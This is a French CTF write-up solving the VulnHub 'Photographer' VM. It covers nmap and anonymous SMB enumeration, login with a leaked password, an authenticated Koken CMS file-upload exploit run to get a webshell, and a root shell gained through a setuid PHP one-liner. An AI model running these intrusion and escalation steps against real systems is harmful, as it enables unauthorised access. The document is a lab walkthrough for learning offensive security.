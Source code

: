 # Solution du CTF Photographer de VulnHub

[Photographer](https://vulnhub.com/entry/photographer-1,519/) est un boot2root créé par [v1n1v131r4](https://twitter.com/@v1n1v131r4) et téléchargeable sur VulnHub.

```
Nmap scan report for 192.168.242.128
Host is up (0.00053s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Photographer by v1n1v131r4
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8000/tcp open  http        Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-generator: Koken 0.22.24
|_http-title: daisa ahomi
MAC Address: 00:0C:29:27:57:E7 (VMware)
Service Info: Hosts: PHOTOGRAPHER, example.com

Host script results:
|_clock-skew: mean: 2h39m59s, deviation: 2h53m12s, median: 59m59s
|_nbstat: NetBIOS name: PHOTOGRAPHER, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-time: 
|   date: 2022-11-19T21:53:38
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: photographer
|   NetBIOS computer name: PHOTOGRAPHER\x00
|   Domain name: \x00
|   FQDN: photographer
|_  System time: 2022-11-19T16:53:37-05:00
```

## Talkie Talkie

On peut récupérer quelques partages via smbclient :

```shellsession
$ smbclient -U "" -N -L //192.168.242.128

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        sambashare      Disk      Samba on Ubuntu
        IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Il y a deux fichiers que l'on peut récupérer :

```shellsession
smbclient -U "" -N //192.168.242.128/sambashare
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul 21 03:30:07 2020
  ..                                  D        0  Tue Jul 21 11:44:25 2020
  mailsent.txt                        N      503  Tue Jul 21 03:29:40 2020
  wordpress.bkp.zip                   N 13930308  Tue Jul 21 03:22:23 2020

                278627392 blocks of size 1024. 264268400 blocks available
```

Le premier est un mail d'un certain `Agi` pour `Daisa` :

```
Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1) Gecko/20020823 Netscape/7.0
X-Accept-Language: en-us, en
MIME-Version: 1.0
To: Daisa Ahomi <daisa@photographer.com>
Subject: To Do - Daisa Website's
Content-Type: text/plain; charset=us-ascii; format=flowed
Content-Transfer-Encoding: 7bit

Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)
```

Le second est une archive de Wordpress mais il n'y a pas le `wp-config.php` dedans.

## Patting myself on the back

Sur le port 8000 je trouve le CMS *Koken*, une appli web déjà croisée sur [le CTF The Office: Doomsday Device de VulnHub](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20The%20Office%3A%20Doomsday%20Device%20de%20VulnHub.md#kitty-cat). Il semble s'agir du site de Daisa Ahomi.

Le site fait mention d'un fichier *shell.php* qui a du être uploadé comme si c'était une image. L'URL du fichier est facile à obtenir mais la page retourne le message suivant :

> WARNING: Failed to daemonise. This is quite common and not fatal. Network is unreachable (101)

Après recherche le fichier utilisé semble être [pentestmonkey/php-reverse-shell · GitHub](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Ce script se base sur une adresse IP et un port hardcodé donc on ne peut rien faire avec.

Juste à l'intuition je trouve que l'interface admin du Koken est à l'adresse `/admin` et qu'on peut se connecter avec les identifiants `daisa@photographer.com` / `babygirl`.

Petite auto-tape dans le dos puisque sur le précédent CTF j'avais codé un exploit pour la faille d'upload arbitraire sur le *Koken* du coup ici je n'ai qu'à exécuter :

```shellsession
$ python3 koken_exploit.py http://192.168.242.128:8000/ daisa@photographer.com babygirl
Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)
-- devloop.users.sf.net 2022 --
Successfully authenticated as daisa ahomi
Enjoy your shell at http://192.168.242.128:8000//storage/originals/f6/70/eubfyyiektheoqhlbobx.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Je rappatrie un reverse-ssh sur la VM. Le firewall semble filtrer des ports sortants mais ça fonctionne avec le port 80 (et sinon, les ports entrants de la VM ne sont pas filtrés).

Dans le dossier personnel de `daisa` se trouve le premier flag :

```shellsession
www-data@photographer:/home/daisa$ cat user.txt 
d41d8cd98f00b204e9800998ecf8427e
```

L'exécutable php est setuid root sur le système :

`-rwsr-xr-x 1 root root 4883680 Jul  9  2020 /usr/bin/php7.2`

L'exécutable donne bien l'effective UID 0 du moment qu'on reste dans PHP :

```shellsession
$ php -r "print(posix_getuid(). ' '. posix_geteuid());"
33 0
```

Si on exécute autre chose, c'est droppé :

```shellsession
$ php -r "system('id');"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Pour ça il faut explicitement écraser l'UID et le GID :

```shellsession
$ php -r "posix_setuid(0); posix_setgid(0); system('dash -i');"
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cd /root
# ls
proof.txt
# cat proof.txt
                                                                   
                                .:/://::::///:-`                                
                            -/++:+`:--:o:  oo.-/+/:`                            
                         -++-.`o++s-y:/s: `sh:hy`:-/+:`                         
                       :o:``oyo/o`. `      ```/-so:+--+/`                       
                     -o:-`yh//.                 `./ys/-.o/                      
                    ++.-ys/:/y-                  /s-:/+/:/o`                    
                   o/ :yo-:hNN                   .MNs./+o--s`                   
                  ++ soh-/mMMN--.`            `.-/MMMd-o:+ -s                   
                 .y  /++:NMMMy-.``            ``-:hMMMmoss: +/                  
                 s-     hMMMN` shyo+:.    -/+syd+ :MMMMo     h                  
                 h     `MMMMMy./MMMMMd:  +mMMMMN--dMMMMd     s.                 
                 y     `MMMMMMd`/hdh+..+/.-ohdy--mMMMMMm     +-                 
                 h      dMMMMd:````  `mmNh   ```./NMMMMs     o.                 
                 y.     /MMMMNmmmmd/ `s-:o  sdmmmmMMMMN.     h`                 
                 :o      sMMMMMMMMs.        -hMMMMMMMM/     :o                  
                  s:     `sMMMMMMMo - . `. . hMMMMMMN+     `y`                  
                  `s-      +mMMMMMNhd+h/+h+dhMMMMMMd:     `s-                   
                   `s:    --.sNMMMMMMMMMMMMMMMMMMmo/.    -s.                    
                     /o.`ohd:`.odNMMMMMMMMMMMMNh+.:os/ `/o`                     
                      .++-`+y+/:`/ssdmmNNmNds+-/o-hh:-/o-                       
                        ./+:`:yh:dso/.+-++++ss+h++.:++-                         
                           -/+/-:-/y+/d:yh-o:+--/+/:`                           
                              `-///////////////:`                               
                                                                                

Follow me at: http://v1n1v131r4.com


d41d8cd98f00b204e9800998ecf8427e
```

*Publié le 19 novembre 2022*
